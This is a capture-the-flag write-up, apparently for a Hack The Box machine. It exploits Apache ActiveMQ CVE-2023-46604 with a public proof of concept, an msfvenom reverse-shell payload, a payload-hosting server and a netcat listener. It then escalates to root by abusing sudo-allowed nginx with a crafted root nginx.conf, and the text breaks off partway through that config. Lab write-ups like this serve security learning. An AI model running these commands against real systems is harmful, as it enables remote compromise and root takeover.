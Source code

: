 Searching around, I find two POC's on github, [one from X1r0z](https://github.com/X1r0z/ActiveMQ-RCE/tree/main) and an updated [version from SaumyajeetDas.](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ) I use the updated version as it is translated into English.

I compile the `main.go` file to build the binary. I modify the `linux-poc.xml` file with my IP address, and create the `.elf` with `msfvenom` as described on the github. After that I start a python server in the directory containing the `xml` and `elf` file, and then run the compiled Go binary.
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST={Your_Listener_IP/Host} LPORT={Your_Listener_Port} -f elf -o test.elf
```
Start a python server
```bash
python3 -m http.server 8001
```
I set up a netcat listener
```bash
nc -lvnp 9001
```
And I then run the `go` binary
```bash
./ActiveMQ-RCE -i 10.129.64.72 -u http://{MY IP}:8001/poc-linux.xml
```
And caught the reverse shell!

# Root Shell
The first thing I notice is the i can run `nginx` as root. 
```bash
activemq@broker:/opt/apache-activemq-5.15.15/bin$ sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
activemq@broker:/opt/apache-activemq-5.15.15/bin$
```
There's no [gtfobin](https://gtfobins.github.io) for this, and nothing obvious is coming up when searching for priv esc in this situation. But I'm thinking that I can make a malicious `nginx.conf`, and then restart `nginx` with that conf, perhaps I could run nginx as root and add the whole file system to the nginx site. Or perhaps specify a directory, like `/dev/shm` on the victim, where a write a rev shell that I can then execute as root throuh the browser...

#### Loading Root File System onto Nginx
This worked! I managed to create an `nginx.conf` that would run `nginx` as root and host the entire file system! Running `nginx` is like running `python3 -m http.server 80` except that this isnt a *simple* http server, it's a complicated one, so I need to actually craft a config file. But the same principles and possibilities still apply, I can host the whole file system on either one.
```
user root;
worker_processes auto;
pid /run/nginx.pid;
include /etc/nginx/modules-enabled/*.conf;

events {
	worker_connections 768;
}

http {

	server {
		listen 8081;
		server_name broker.htb;

		location / {
```